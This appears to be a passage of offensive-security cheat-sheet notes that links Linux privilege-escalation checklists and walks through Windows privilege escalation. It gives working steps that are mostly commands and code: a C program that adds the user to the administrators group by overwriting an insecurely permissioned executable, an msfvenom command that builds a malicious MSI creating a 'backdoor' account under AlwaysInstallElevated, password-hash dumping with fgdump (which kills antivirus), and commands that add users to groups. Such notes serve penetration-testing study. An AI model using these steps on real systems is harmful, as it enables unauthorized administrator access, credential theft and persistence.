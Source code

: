 Good checklists:
* [Guif.re](https://guif.re/linuxeop)
* [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [payatu](https://payatu.com/guide-linux-privilege-escalation)

### Windows Privesc

Get system info: `systeminfo`

List environment variables: `set`

List your privileges: `whoami /priv`

Overwriting an Executable with Insecure Permissions:
Create a program called useradd.c on either the target (preferable, but if they don't have gcc, you can't do this) or on Kali.
```
#include <stdlib.h> 

int main () { 
    int i; 
    i=system ("net localgroup administrators low /add"); 
    return 0; 
} 
```
Replace low with the name of your current user. Compile useradd.c using `i686-w64-mingw32-gcc -o tooverwrite.exe useradd.c`, and move the exexcutable to the same directory as the executable that you want to overwrite.

List scheduled tasks: `schtasks /query /fo LIST /v`

List running services: `tasklist /SVC`

List started services: `net start`

See what software is installed:
```
dir /a "C:\Program Files" 
dir /a "C:\Program Files (x86)" 
reg query HKEY_LOCAL_MACHINE\SOFTWARE 
```

Dumping windows password hashes: You can use fgdump.exe to dump passwords in a file ending with .pwdump. Fgdump will also attempt to kill local antiviruses before dumping the passwords.

Adding users: `net user [username] [password] /ADD`

Changing group: `net localgroup [group name] [username] /ADD`

AlwaysElevated: Check if these two registry values are set to 1 by using `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` and `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`. If they are, then use the following command to create a malicious MSI: `msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi`. Send the MSI to the target, and run the MSI file using `msiexec /quiet /qn /i evil.msi`.

Looking at the registry: If you can't use the reg command, use the regedit command instead.
```
regedit /E file.reg "REGISTRY/VALUE/TO/READ"
type file.reg
```
